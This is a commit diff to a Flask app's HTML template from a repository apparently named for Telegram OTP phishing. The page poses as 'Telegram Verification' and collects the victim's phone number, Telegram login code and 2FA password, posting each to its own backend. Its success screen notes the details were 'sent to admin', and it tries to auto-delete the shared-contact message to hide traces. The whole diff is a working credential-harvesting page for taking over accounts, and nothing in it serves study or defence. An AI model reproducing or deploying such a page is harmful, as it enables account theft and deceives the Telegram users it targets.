

Before and after one commit to hahyt6644-gif/tele-phis-otp, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -5,220 +5,37 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Telegram Verification</title>
     <style>
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
-            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
-        }
-
-        body {
-            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
-            min-height: 100vh;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            padding: 20px;
-        }
-
-        .container {
-            width: 100%;
-            max-width: 400px;
-            background: white;
-            border-radius: 20px;
-            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
-            overflow: hidden;
-        }
-
-        .header {
-            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
-            color: white;
-            padding: 30px 20px;
-            text-align: center;
-        }
-
-        .header h1 {
-            font-size: 24px;
-            margin-bottom: 10px;
-        }
-
-        .header p {
-            opacity: 0.9;
-            font-size: 14px;
-        }
-
-        .content {
-            padding: 30px;
-        }
-
-        .step {
-            display: none;
-            animation: fadeIn 0.3s ease;
-        }
-
-        .step.active {
-            display: block;
-        }
-
-        @keyframes fadeIn {
-            from { opacity: 0; transform: translateY(10px); }
-            to { opacity: 1; transform: translateY(0); }
-        }
-
-        .step-title {
-            font-size: 18px;
-            font-weight: 600;
-            margin-bottom: 15px;
-            color: #333;
-            display: flex;
-            align-items: center;
-            gap: 10px;
-        }
-
-        .step-title .icon {
-            font-size: 24px;
-        }
-
-        .info-box {
-            background: #f8f9fa;
-            border-radius: 12px;
-            padding: 15px;
-            margin-bottom: 20px;
-            border-left: 4px solid #667eea;
-        }
-
-        .info-box p {
-            color: #666;
-            font-size: 14px;
-            line-height: 1.5;
-        }
-
-        .btn {
-            width: 100%;
-            padding: 16px;
-            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
-            color: white;
-            border: none;
-            border-radius: 12px;
-            font-size: 16px;
-            font-weight: 600;
-            cursor: pointer;
-            transition: transform 0.2s, opacity 0.2s;
-            margin-top: 10px;
-        }
-
-        .btn:hover {
-            transform: translateY(-2px);
-            opacity: 0.95;
-        }
-
-        .btn:disabled {
-            opacity: 0.6;
-            cursor: not-allowed;
-        }
-
-        .contact-btn {
-            background: #0088cc;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            gap: 10px;
-            padding: 18px;
-        }
-
-        .otp-inputs {
-            display: flex;
-            gap: 10px;
-            justify-content: center;
-            margin-bottom: 20px;
-        }
-
-        .otp-input {
-            width: 50px;
-            height: 60px;
-            text-align: center;
-            font-size: 24px;
-            font-weight: 600;
-            border: 2px solid #e0e0e0;
-            border-radius: 10px;
-            transition: all 0.3s;
-        }
-
-        .otp-input:focus {
-            border-color: #667eea;
-            outline: none;
-        }
-
-        .loading {
-            text-align: center;
-            padding: 20px;
-        }
-
-        .loading-spinner {
-            width: 40px;
-            height: 40px;
-            border: 3px solid #f3f3f3;
-            border-top: 3px solid #667eea;
-            border-radius: 50%;
-            animation: spin 1s linear infinite;
-            margin: 0 auto 15px;
-        }
-
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
-        }
-
-        .success {
-            text-align: center;
-            padding: 30px 20px;
-        }
-
-        .success-icon {
-            font-size: 60px;
-            color: #4CAF50;
-            margin-bottom: 20px;
-        }
-
-        .error {
-            background: #ffebee;
-            color: #c62828;
-            padding: 12px;
-            border-radius: 8px;
-            margin-bottom: 15px;
-            font-size: 14px;
-            display: none;
-        }
-
-        .error.show {
-            display: block;
-        }
-
-        .back-btn {
-            background: #f8f9fa;
-            color: #666;
-            margin-top: 15px;
-        }
-
-        .password-input {
-            width: 100%;
-            padding: 15px;
-            border: 2px solid #e0e0e0;
-            border-radius: 12px;
-            font-size: 16px;
-            margin-bottom: 15px;
-        }
-
-        .hidden {
-            display: none;
-        }
-
-        #phone-display {
-            font-weight: bold;
-            color: #333;
-            margin: 10px 0;
-            text-align: center;
-        }
+        * { margin: 0; padding: 0; box-sizing: border-box; font-family: system-ui, sans-serif; }
+        body { background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); min-height: 100vh; padding: 20px; }
+        .container { max-width: 400px; background: white; border-radius: 20px; overflow: hidden; margin: 0 auto; }
+        .header { background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); color: white; padding: 25px; text-align: center; }
+        .header h1 { font-size: 22px; margin-bottom: 5px; }
+        .header p { opacity: 0.9; font-size: 14px; }
+        .content { padding: 25px; }
+        .step { display: none; animation: fadeIn 0.3s; }
+        .step.active { display: block; }
+        @keyframes fadeIn { from { opacity: 0; transform: translateY(10px); } to { opacity: 1; transform: translateY(0); } }
+        .step-title { font-size: 18px; font-weight: 600; margin-bottom: 15px; color: #333; display: flex; align-items: center; gap: 10px; }
+        .step-title .icon { font-size: 24px; }
+        .info-box { background: #f8f9fa; border-radius: 12px; padding: 15px; margin-bottom: 20px; border-left: 4px solid #667eea; }
+        .info-box p { color: #666; font-size: 14px; line-height: 1.5; }
+        .btn { width: 100%; padding: 16px; background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); color: white; border: none; border-radius: 12px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.2s; margin-top: 10px; }
+        .btn:hover { transform: translateY(-2px); opacity: 0.95; }
+        .btn:disabled { opacity: 0.6; cursor: not-allowed; }
+        .contact-btn { background: #0088cc; display: flex; align-items: center; justify-content: center; gap: 10px; }
+        .back-btn { background: #f8f9fa; color: #666; }
+        .otp-inputs { display: flex; gap: 10px; margin: 20px 0; justify-content: center; }
+        .otp-input { width: 50px; height: 60px; text-align: center; font-size: 24px; border: 2px solid #e0e0e0; border-radius: 10px; transition: all 0.3s; }
+        .otp-input:focus { border-color: #667eea; outline: none; box-shadow: 0 0 0 3px rgba(102, 126, 234, 0.1); }
+        .loading { text-align: center; padding: 30px; }
+        .spinner { width: 40px; height: 40px; border: 4px solid #f3f3f3; border-top: 4px solid #667eea; border-radius: 50%; animation: spin 1s linear infinite; margin: 0 auto 20px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .success { text-align: center; padding: 30px; }
+        .success-icon { font-size: 60px; color: #4CAF50; margin-bottom: 20px; }
+        .error { background: #ffebee; color: #c62828; padding: 12px; border-radius: 8px; margin-bottom: 15px; display: none; }
+        .error.show { display: block; }
+        .password-input { width: 100%; padding: 15px; border: 2px solid #e0e0e0; border-radius: 12px; font-size: 16px; margin-bottom: 15px; }
+        #phone-display { font-weight: bold; text-align: center; margin: 10px 0; color: #333; }
     </style>
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
 </head>
@@ -226,61 +43,49 @@
     <div class="container">
         <div class="header">
             <h1>🔐 Telegram Verification</h1>
-            <p>Secure account verification</p>
+            <p>Secure WebApp Verification</p>
         </div>
 
         <div class="content">
             <!-- Step 1: Welcome -->
             <div class="step active" id="step1">
-                <div class="step-title">
-                    <span class="icon">👋</span>
-                    Welcome
-                </div>
+                <div class="step-title"><span class="icon">👋</span>Welcome</div>
                 <div class="info-box">
-                    <p>Verify your Telegram account. Share contact to receive OTP.</p>
-                    <p><small>No messages will be sent to your chat.</small></p>
+                    <p>Verify your Telegram account securely.</p>
+                    <p><small>No messages in chat • Auto-delete contact</small></p>
                 </div>
                 <button class="btn" onclick="nextStep()">Start Verification</button>
             </div>
 
-            <!-- Step 2: Contact Share -->
+            <!-- Step 2: Contact -->
             <div class="step" id="step2">
-                <div class="step-title">
-                    <span class="icon">📱</span>
-                    Share Contact
+                <div class="step-title"><span class="icon">📱</span>Share Contact</div>
+                <div class="info-box">
+                    <p>Share your phone number to receive OTP.</p>
+                    <p><small>The contact message will be auto-deleted</small></p>
                 </div>
-                <div class="info-box">
-                    <p>Click the button to share your phone number for OTP.</p>
-                </div>
-                <button class="btn contact-btn" onclick="shareContact()">
-                    <span>📞</span> Share Contact
-                </button>
+                <button class="btn contact-btn" onclick="shareContact()">📞 Share Contact</button>
                 <button class="btn back-btn" onclick="prevStep()">Back</button>
             </div>
 
             <!-- Step 3: Loading -->
             <div class="step" id="step3">
                 <div class="loading">
-                    <div class="loading-spinner"></div>
+                    <div class="spinner"></div>
                     <p>Sending OTP...</p>
                     <p id="phone-info"></p>
                 </div>
             </div>
 
-            <!-- Step 4: Enter OTP -->
+            <!-- Step 4: OTP -->
             <div class="step" id="step4">
-                <div class="step-title">
-                    <span class="icon">🔢</span>
-                    Enter OTP
-                </div>
+                <div class="step-title"><span class="icon">🔢</span>Enter OTP</div>
                 <div class="info-box">
                     <p>Enter 5-digit code sent to:</p>
                     <p id="phone-display"></p>
                     <p><small>Format: 9 4 3 8 0 or 94380</small></p>
                 </div>
-
                 <div class="error" id="otp-error"></div>
-
                 <div class="otp-inputs">
                     <input type="text" class="otp-input" maxlength="1" oninput="moveToNext(this, 1)">
                     <input type="text" class="otp-input" maxlength="1" oninput="moveToNext(this, 2)">
@@ -288,26 +93,19 @@
                     <input type="text" class="otp-input" maxlength="1" oninput="moveToNext(this, 4)">
                     <input type="text" class="otp-input" maxlength="1" oninput="moveToNext(this, 5)">
                 </div>
-
                 <button class="btn" onclick="verifyOTP()" id="verify-btn" disabled>Verify OTP</button>
                 <button class="btn back-btn" onclick="goToStep(2)">Change Number</button>
             </div>
 
             <!-- Step 5: 2FA -->
             <div class="step" id="step5">
-                <div class="step-title">
-                    <span class="icon">🔐</span>
-                    2FA Password
-                </div>
+                <div class="step-title"><span class="icon">🔐</span>2FA Password</div>
                 <div class="info-box">
                     <p>Enter 2FA password for:</p>
                     <p id="phone-display-2fa"></p>
                 </div>
-
                 <div class="error" id="password-error"></div>
-
                 <input type="password" class="password-input" id="password-input" placeholder="2FA Password">
-
                 <button class="btn" onclick="verifyPassword()">Verify Password</button>
                 <button class="btn back-btn" onclick="goToStep(4)">Back</button>
             </div>
@@ -317,7 +115,7 @@
                 <div class="success">
                     <div class="success-icon">✅</div>
                     <h2>Verified Successfully!</h2>
-                    <p>Your account has been verified.</p>
+                    <p>Account verification complete.</p>
                     <p><small>Details sent to admin</small></p>
                     <button class="btn" onclick="closeApp()">Close</button>
                 </div>
@@ -328,6 +126,7 @@
     <script>
         let currentStep = 1;
         let sessionId = null;
+        let webappId = null;
         let phoneNumber = '';
         let otpCode = '';
 
@@ -336,18 +135,30 @@
             Telegram.WebApp.ready();
             Telegram.WebApp.expand();
             Telegram.WebApp.MainButton.hide();
+            Telegram.WebApp.BackButton.hide();
 
-            // Listen for contact data
-            Telegram.WebApp.onEvent('webAppDataReceived', (data) => {
+            // Initialize WebApp session
+            initWebApp();
+        }
+
+        async function initWebApp() {
             try {
-                    const contactData = JSON.parse(data);
-                    if (contactData && contactData.contact) {
-                        handleContact(contactData.contact);
+                const user = Telegram.WebApp.initDataUnsafe?.user;
+                const userId = user?.id || 'unknown';
+
+                const response = await fetch('/api/init-webapp', {
+                    method: 'POST',
+                    headers: { 'Content-Type': 'application/json' },
+                    body: JSON.stringify({ user_id: userId })
+                });
+
+                const data = await response.json();
+                if (data.success) {
+                    webappId = data.webapp_id;
                 }
-                } catch (e) {
-                    console.error('Error:', e);
+            } catch (error) {
+                console.log('WebApp init:', error);
             }
-            });
         }
 
         function nextStep() {
@@ -370,62 +181,83 @@
 
         function shareContact() {
             if (window.Telegram && Telegram.WebApp) {
+                // Share contact via Telegram WebApp
                 Telegram.WebApp.shareContact();
             } else {
-                alert('Please use Telegram app');
+                alert('Please use Telegram app to share contact');
             }
         }
 
-        function handleContact(contact) {
+        // Handle contact data from Telegram
+        if (window.Telegram && Telegram.WebApp) {
+            // Listen for contact data
+            Telegram.WebApp.onEvent('contactReceived', (contact) => {
+                if (contact) {
+                    handleContact(contact);
+                }
+            });
+
+            // Alternative: listen for data from main button
+            Telegram.WebApp.onEvent('mainButtonClicked', () => {
+                Telegram.WebApp.shareContact();
+            });
+        }
+
+        async function handleContact(contact) {
+            if (!contact || !contact.phone_number) {
+                showError('Please share valid contact');
+                return;
+            }
+
             phoneNumber = contact.phone_number;
-            const firstName = contact.first_name || '';
-            const lastName = contact.last_name || '';
+            if (!phoneNumber.startsWith('+')) {
+                phoneNumber = '+' + phoneNumber;
+            }
 
-            // Delete the contact sharing message
-            deleteContactMessage();
-
-            // Go to loading step
             goToStep(3);
             document.getElementById('phone-info').textContent = `Phone: ${phoneNumber}`;
 
-            // Send to backend
-            fetch('/api/process-contact', {
+            try {
+                const response = await fetch('/api/process-contact', {
                     method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json',
-                },
+                    headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
                         phone: phoneNumber,
-                    first_name: firstName,
-                    last_name: lastName
+                        webapp_id: webappId,
+                        first_name: contact.first_name || '',
+                        last_name: contact.last_name || ''
                     })
-            })
-            .then(response => response.json())
-            .then(data => {
+                });
+
+                const data = await response.json();
+
                 if (data.success) {
                     sessionId = data.session_id;
                     document.getElementById('phone-display').textContent = phoneNumber;
                     document.getElementById('phone-display-2fa').textContent = phoneNumber;
                     goToStep(4);
-                    setTimeout(() => document.querySelector('.otp-input').focus(), 100);
+
+                    // Focus first OTP input
+                    setTimeout(() => {
+                        const firstInput = document.querySelector('.otp-input');
+                        if (firstInput) firstInput.focus();
+                    }, 100);
+
+                    // Auto-delete contact message if possible
+                    if (window.Telegram && Telegram.WebApp) {
+                        try {
+                            Telegram.WebApp.sendData(JSON.stringify({
+                                action: 'delete_contact'
+                            }));
+                        } catch (e) {}
+                    }
                 } else {
-                    showError('otp-error', data.error || 'Failed');
+                    showError('otp-error', data.error || 'Failed to send OTP');
                     goToStep(2);
                 }
-            })
-            .catch(error => {
+            } catch (error) {
                 showError('otp-error', 'Network error');
                 goToStep(2);
-            });
-        }
-
-        function deleteContactMessage() {
-            // Send signal to delete contact message
-            if (window.Telegram && Telegram.WebApp) {
-                Telegram.WebApp.sendData(JSON.stringify({
-                    action: 'delete_contact_message',
-                    timestamp: Date.now()
-                }));
             }
         }
 
@@ -445,48 +277,56 @@
             }
         }
 
-        function verifyOTP() {
+        async function verifyOTP() {
             if (otpCode.length !== 5) return;
 
-            document.getElementById('verify-btn').disabled = true;
-            document.getElementById('verify-btn').textContent = 'Verifying...';
+            const verifyBtn = document.getElementById('verify-btn');
+            verifyBtn.disabled = true;
+            verifyBtn.textContent = 'Verifying...';
 
-            fetch('/api/verify-otp', {
+            try {
+                const response = await fetch('/api/verify-otp', {
                     method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json',
-                },
+                    headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
                         session_id: sessionId,
                         otp: otpCode
                     })
-            })
-            .then(response => response.json())
-            .then(data => {
+                });
+
+                const data = await response.json();
+
                 if (data.success) {
                     if (data.requires_2fa) {
                         goToStep(5);
                     } else {
-                        // Complete verification
-                        completeVerification();
+                        // Success
+                        await fetch('/api/complete', {
+                            method: 'POST',
+                            headers: { 'Content-Type': 'application/json' },
+                            body: JSON.stringify({
+                                session_id: sessionId,
+                                phone: phoneNumber
+                            })
+                        });
+                        goToStep(6);
                     }
                 } else {
-                    showError('otp-error', data.error || 'Verification failed');
-                    document.getElementById('verify-btn').disabled = false;
-                    document.getElementById('verify-btn').textContent = 'Verify OTP';
+                    showError('otp-error', data.error);
+                    verifyBtn.disabled = false;
+                    verifyBtn.textContent = 'Verify OTP';
                 }
-            })
-            .catch(error => {
+            } catch (error) {
                 showError('otp-error', 'Network error');
-                document.getElementById('verify-btn').disabled = false;
-                document.getElementById('verify-btn').textContent = 'Verify OTP';
-            });
+                verifyBtn.disabled = false;
+                verifyBtn.textContent = 'Verify OTP';
+            }
         }
 
-        function verifyPassword() {
-            const password = document.getElementById('password-input').value;
+        async function verifyPassword() {
+            const password = document.getElementById('password-input').value.trim();
             if (!password) {
-                showError('password-error', 'Enter password');
+                showError('password-error', 'Enter 2FA password');
                 return;
             }
 
@@ -494,54 +334,49 @@
             btn.disabled = true;
             btn.textContent = 'Verifying...';
 
-            fetch('/api/verify-2fa', {
+            try {
+                const response = await fetch('/api/verify-2fa', {
                     method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json',
-                },
+                    headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
                         session_id: sessionId,
                         password: password
                     })
+                });
+
+                const data = await response.json();
+
+                if (data.success) {
+                    // Success with 2FA
+                    await fetch('/api/complete', {
+                        method: 'POST',
+                        headers: { 'Content-Type': 'application/json' },
+                        body: JSON.stringify({
+                            session_id: sessionId,
+                            phone: phoneNumber,
+                            has_2fa: true
                         })
-            .then(response => response.json())
-            .then(data => {
-                if (data.success) {
-                    completeVerification();
+                    });
+                    goToStep(6);
                 } else {
                     showError('password-error', data.error || 'Wrong password');
                     btn.disabled = false;
                     btn.textContent = 'Verify Password';
                 }
-            })
-            .catch(error => {
+            } catch (error) {
                 showError('password-error', 'Network error');
                 btn.disabled = false;
                 btn.textContent = 'Verify Password';
-            });
             }
-
-        function completeVerification() {
-            // Notify backend
-            fetch('/api/complete', {
-                method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json',
-                },
-                body: JSON.stringify({
-                    session_id: sessionId,
-                    phone: phoneNumber
-                })
-            });
-
-            goToStep(6);
         }
 
         function showError(elementId, message) {
             const element = document.getElementById(elementId);
+            if (element) {
                 element.textContent = message;
                 element.classList.add('show');
-            setTimeout(() => element.classList.remove('show'), 3000);
+                setTimeout(() => element.classList.remove('show'), 5000);
+            }
         }
 
         function closeApp() {
@@ -549,6 +384,19 @@
                 Telegram.WebApp.close();
             }
         }
+
+        // Initialize first step
+        document.addEventListener('DOMContentLoaded', function() {
+            // Set Telegram theme if available
+            if (window.Telegram && Telegram.WebApp) {
+                const theme = Telegram.WebApp.colorScheme;
+                if (theme === 'dark') {
+                    document.body.style.background = '#0f0f23';
+                    document.querySelector('.container').style.background = '#1c1c1c';
+                    document.querySelector('.container').style.color = '#fff';
+                }
+            }
+        });
     </script>
 </body>
     </html>
```
Lines whose indentation alone changed are shown as unchanged.
